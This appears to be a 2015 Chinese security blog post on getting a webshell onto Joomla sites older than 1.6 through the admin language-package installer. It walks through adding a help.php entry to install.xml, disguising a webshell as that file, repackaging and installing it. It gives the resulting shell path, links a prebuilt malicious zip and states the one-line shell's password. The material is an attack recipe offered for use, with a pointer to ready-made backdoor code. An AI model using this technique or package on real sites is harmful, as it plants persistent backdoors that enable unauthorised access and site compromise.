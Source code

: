 ```yaml
---
id: 131
title: Joomla 1.6之前版本后台拿shell的一种方法
date: 2015-03-06T21:27:37+00:00
author: admin
layout: post
guid: http://www.ikow.cn/?p=131
permalink: /joomla-getwebshell/
categories:
  - WEB
tags:
  - joomla
  - webshell
  - 后台
  - 拿shell
---
```

<img src="http://kowapp.u.qiniudn.com/joomla.jpg" alt="" border="0" />

在后台<a>Extensions&#8211;>install&#8211;></a>Upload Package File的地方可以上传zip的压缩包，然后根据压缩包中install.xml对包中的文件进行解压缩安装

install.xml：

<pre class="brush:xml; toolbar: true; auto-links: true;">&lt;?xml version="1.0" encoding="utf-8"?&gt;

&lt;install type="language" version="1.6" client="administrator" method="upgrade"&gt;

&lt;name&gt;简体中文&lt;/name&gt;

&lt;tag&gt;zh-CN&lt;/tag&gt;

&lt;version&gt;1.6.1&lt;/version&gt;

&lt;creationDate&gt;2011-03-08&lt;/creationDate&gt;

&lt;author&gt;Derek Joe(zhous)&lt;/author&gt;

&lt;authorEmail&gt;zhous1998@sohu.com&lt;/authorEmail&gt;

&lt;authorurl&gt;www.joomla.cn&lt;/authorurl&gt;

&lt;copyright&gt;Copyright (C) 2010 CHN Joomla Translation (http://joomlacode.org/gf/project/choice/). All rights reserved.&lt;/copyright&gt;

&lt;license&gt;GNU General Public License version 2 or later; see LICENSE.txt&lt;/license&gt;

&lt;description&gt;

&lt;/description&gt;

&lt;files&gt;

&lt;filename&gt;index.html&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_admin.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_admin.sys.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_banners.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_banners.sys.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_cache.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_cache.sys.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_categories.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_categories.sys.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_checkin.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_checkin.sys.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_config.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_config.sys.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_contact.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_contact.sys.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_content.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_content.sys.ini&lt;/filename&gt;

&lt;filename&gt;zh-CN.com_cpanel.ini&lt;/filename&gt;</pre>

我们在其中添加

<pre class="brush:xml; toolbar: true; auto-links: true;">&lt;filename&gt;help.php&lt;/filename&gt;</pre>

然后在将webshell重命名为help.php

把所有文件重新打包成zip格式，上传安装

于是我们成功获得了webshell：

http://www.xxoo.com/language/zh-CH/help.php   (并非网上流传的http://xxxx.com/administrator/language/zh-CN/xxxxxx.php)

下面是已经打包好的zip文件：

http://pan.baidu.com/s/1hqsz9mk

其中help.php为一句话shell，密码为 kow

&nbsp;

&nbsp;